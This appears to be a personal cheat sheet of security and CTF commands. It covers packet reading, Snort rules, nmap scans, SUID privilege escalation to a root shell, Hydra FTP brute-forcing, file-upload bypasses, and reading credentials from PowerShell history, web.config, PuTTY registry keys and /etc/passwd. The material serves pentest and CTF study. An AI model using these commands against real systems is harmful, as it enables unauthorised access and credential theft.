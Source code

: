 # Useful commands
Collection of useful knowledge, commands, and shortcuts.

## Working with packets

Use `tcpdump` to read .pcap files in the command line. Useful for when you don't have access to WireShark.

```tcpdump -qns 0 -X -r file.pcap```

#### Snort Rules

Detect login attempts with the "Administrator" account and a wrong/no password.

```alert tcp any 21 <> any any (msg: "FAILED LOGIN"; content: "331 Password"; content: "Administrator"; sid: 1000004; rev:1;)```

Dump raw packet data

```sudo snort -v -X -r snort.log.xxxxxxx```

Run Snort as IPS on interfaces eth0 and eth1

```sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full```

## Reconnaissance

#### NMAP

Default scan suitable for most networks.

```nmap -sV -sC -O <ip>```

## CTFs

#### Finding flags

Find flag specifying filetype and name and output errors to dev/null

```find / -type f -name <flag> 2>/dev/null```

### Privilege escalation

Refer to [https://gtfobins.github.io/](https://gtfobins.github.io/) for more methods.

##### Find files with SUID permissions

```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```

If for example we find that python has SUID permissions, we can move to the python directory and escalate privileges with:

```./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

#### Find writable directories/files

```find / -writable -type d 2>/dev/null ```

#### Setup a python http server to download files from attacker machine to target machine.

```python -m http.server```

#### Use gcc to compile a C program

```gcc exploit.c -o exploit```

### Brute-forcing

#### Hydra brute force ftp with known username

```hydra -v -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt ftp://10.10.15.235:21```

### Windows

#### Powershell History

Check powershell history (must be run from cmd.exe)

```%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

#### IIS

Find database connection strings on the file:

```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```

#### PuTTY

Retrieve stored proxy credentials, the command searches for ProxyPassword in a registry key.

```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```

## Output formatting

#### Cut

```cat``` the contents of /etc/passwd and pass them through ```cut``` to extract the first field delimited by a colon

 ```cat /etc/passwd | cut -d ":" -f 1```

# Methodology

Reminders for when you get stuck.

### Privilege Escalation

- Check what files you can run as sudo.
- Check for SUID bit set.
```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```
- Check cron jobs
```cat /etc/crontab```
- Check for execute permissions when taking over cron jobs.
- Check $PATH for write privileges to any of the folder in $PATH.
- Check if I can modify $PATH
- Check for misconfigured NFS. If a writable share has the "no_root_squash" option set then we can leverage that.
```cat /etc/exports```

### Bypassing file upload restrictions

- Turn off javascript in browser (if webapp doesn't depend on it)
- Intercept and modify the **incoming** page with Burp.
- Intercept and modify the **file upload** with Burp.
- Send the file directly to the upload point.
```curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>```
